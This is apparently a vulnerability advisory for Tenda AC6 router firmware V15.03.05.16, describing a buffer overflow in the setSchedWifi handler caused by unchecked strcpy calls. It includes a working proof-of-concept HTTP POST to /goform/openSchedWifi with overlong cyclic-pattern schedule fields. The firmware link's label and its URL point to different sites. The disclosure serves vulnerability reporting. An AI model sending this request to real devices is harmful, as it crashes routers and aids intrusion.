



# Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** AC6

**Affected firmware version:** V15.03.05.16

**Firmware download address:** [[AC6V1.0升级软件_腾达(Tenda)官方网站](https://tenda.com.cn/material/show/102661)](https://www.h3c.com/cn/d_202504/2389309_30005_0.htm)

# Overview

Tenda `AC6 V15.03.05.16` firmware has a buffer overflow vulnerability in the setSchedWifi function. The functions `strcpy((char *)ptr + 2, src) and strcpy((char *)ptr + 10, src_1);` will copy the src string content to ptr without doing a boundary check, which will cause a buffer overflow and overwrite the memory area after the array, which may cause the program to crash, thereby triggering this security vulnerability.

# Vulnerability details

Call the corresponding function through the `openSchedWifi` route




There is a buffer overflow here



# POC

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 309

schedWifiEnable=0&schedEndTime=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
&schedStartTime=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

```


